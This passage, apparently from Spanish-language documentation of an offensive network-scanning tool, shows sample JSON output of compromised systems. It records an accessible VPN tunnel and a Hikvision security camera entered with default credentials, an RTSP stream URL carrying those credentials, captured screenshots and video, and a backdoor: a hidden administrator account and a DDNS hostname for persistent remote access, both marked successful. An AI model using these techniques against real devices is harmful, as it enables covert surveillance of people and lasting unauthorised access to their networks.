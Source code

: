 ```json
      {
        "host": "192.168.1.100",
        "port": 1194,
        "service": "openvpn",
        "type": "vpn_tunnel",
        "accessible": true
      }
    ],
    "total_related_networks": 4
  }
}
```
**¿Qué significa?** Redes adicionales detectadas y accesibles

### **7. CÁMARAS DE SEGURIDAD** 📹
```json
{
  "cameras_accessed": [
    {
      "host": "192.168.1.50",
      "port": 80,
      "camera_type": "hikvision_ezviz",
      "credentials": {
        "username": "admin",
        "password": "12345"
      },
      "camera_info": {
        "model": "DS-2CD2142FWD-I",
        "firmware": "V5.4.5",
        "resolution": "1920x1080"
      },
      "access_urls": {
        "web_interface": [
          "http://192.168.1.50:80",
          "http://192.168.1.50:80/doc/page/login.asp"
        ],
        "rtsp_stream": [
          "rtsp://admin:12345@192.168.1.50:554/Streaming/Channels/101"
        ]
      },
      "screenshots": [
        "camera_192.168.1.50_screenshot_1.jpg",
        "camera_192.168.1.50_screenshot_2.jpg"
      ],
      "video_file": "camera_192.168.1.50_video_1640995200.mp4",
      "backdoor_info": {
        "type": "camera_backdoor",
        "camera_type": "hikvision_ezviz",
        "backdoor_methods": [
          {
            "method": "admin_user_creation",
            "username": "backdoor_user",
            "password": "Backdoor_2024!",
            "status": "success"
          }
        ],
        "persistent_access": [
          {
            "method": "ddns_configuration",
            "hostname": "backdoor_192_168_1_50.hik-connect.com",
            "status": "success"
          }
        ],
```